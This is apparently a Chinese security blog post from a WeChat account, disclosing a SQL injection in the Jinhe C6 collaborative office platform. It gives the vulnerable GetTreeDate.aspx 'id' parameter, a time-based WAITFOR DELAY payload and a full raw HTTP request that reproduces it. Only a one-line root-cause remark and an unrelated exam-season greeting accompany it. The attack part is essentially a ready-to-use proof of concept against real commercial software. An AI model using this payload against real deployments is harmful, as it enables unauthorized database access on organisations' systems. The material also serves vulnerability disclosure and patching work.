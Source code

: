 #  某C6协同管理平台审计

原创 Shad0wJe  [ 99Sec ](javascript:void\(0\);)

**99Sec** ![]()

微信号 _99Sec

功能介绍 不定期分享一些web渗透、红队攻防、应急响应等技术技巧

____

___发表于_

收录于合集 #审计 1个

## 1\. 漏洞点

http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1

## 2\. 复现

http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1%3bWAITFOR+DELAY+'0%3a0%3a5'+--%20and%201=1

  *   *   *   *   *   *   *   * 

    
    
    GET /C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1%3bWAITFOR+DELAY+%270%3a0%3a5%27+--%20and%201=1 HTTP/1.1Host: 192.168.4.96User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeUpgrade-Insecure-Requests: 1

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619142139.png)

## 3\. 代码审计

未过滤，直接拼接SQL语句导致注入产生

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619142140.png)

![]()

## 4\. 祝广大考生金榜题名

## 亲爱的广大考生们：

高考到来，衷心祝愿你们都能发挥出最好的水平，取得优异的成绩。高考是人生中的一个重要节点，它不仅是对自己多年学习的检验，更是未来道路的起点。在这个重要的时刻，我希望你们能够保持冷静和自信，认真审题，仔细答题，严格按照考试规定和时间完成考试。同时，也希望你们能够适度放松，保持身心健康，以最好的状态迎接考试。最后，再次祝愿你们金榜题名，前程似锦，实现自己的人生理想。希望你们在高考中发挥出最好的水平，为自己的未来奠定坚实的基础。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619142141.png)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

